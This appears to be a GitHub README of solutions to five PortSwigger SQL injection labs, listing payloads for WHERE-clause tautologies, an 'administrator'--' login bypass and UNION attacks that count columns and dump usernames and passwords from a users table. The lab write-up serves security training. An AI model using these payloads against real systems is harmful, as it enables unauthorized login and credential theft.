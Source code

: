 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By appling `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By appling `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

